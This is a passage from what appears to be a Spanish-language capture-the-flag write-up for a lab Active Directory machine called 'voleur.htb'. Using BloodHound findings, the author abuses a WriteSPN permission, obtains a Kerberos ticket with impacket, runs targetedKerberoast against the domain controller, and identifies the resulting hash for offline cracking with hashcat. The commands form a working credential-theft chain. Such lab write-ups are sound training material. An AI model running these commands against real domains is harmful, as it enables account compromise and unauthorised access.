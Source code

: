importamos el .zip a `bloodhund`

<img width="1917" height="1010" alt="image" src="https://github.com/user-attachments/assets/e8707575-1081-40a0-acd5-59718ec898e8" />

por aqui no tenemos mucho que hacer asi que chequemos los usuarios que conseguimos en el archivo anterior

User: `SVC_LDAP`

<img width="1917" height="1010" alt="image" src="https://github.com/user-attachments/assets/5e6f5e88-85cd-4da5-85db-0fe08b911426" />

<img width="1917" height="1010" alt="image" src="https://github.com/user-attachments/assets/692a659c-2622-4744-afae-ed0902c20375" />

como observamos, el usuario `SVC_LDAP` tiene permisos `WiteSPN` sobre el usuario `SVC_WINRM`, por lo que haremos un ataque `Kerberoast` para obtener hash descifrable e intentar obtener acceso remoto via `winrm`.


primero generamos un ticket kerberos del usuario `SVC_LDAP` con sus credenciales, haciendo uso de las que obtuvimos en el archivo anterior descargado

```bash
impacket-getTGT voleur.htb/'svc_ldap':'M1********'
```

```bash
export KRB5CCNAME=svc_ldap.ccache
```

procedemos a realizar el ataque `Kerberoast`. Primero nos vamos a clonar el repositorio de la herramienta `targetedKerberoast.py` para despues hacer el ataque

```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast.git # clonamos el repositorio
```
```bash
cd targetedKerberoast # accedemos al directorio de la herramienta
```
```bash
cp targetedKerberoast.py /usr/bin/targetedKerberoast # para llamar la herramienta en el futuro desde cualquier ubicacion del sistema
```

>>> ataque

```bash
targetedKerberoast -v -d 'voleur.htb' -u 'svc_ldap' -k --no-pass --dc-ip 10.10.11.76 --dc-host DC.voleur.htb -f hashcat -o kerberoas.hash
```

<img width="1917" height="286" alt="image" src="https://github.com/user-attachments/assets/4437f13d-39ec-49fb-94fe-d765d56ec0df" />

lo generamos en el formato que mas nos convenga, en mi caso formato hashcat para el crackeo offline

```bash
hashcat --identify kerberoas.hash # identificamos el numero asignado por hashcat para este hash
```
```bash
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol


```
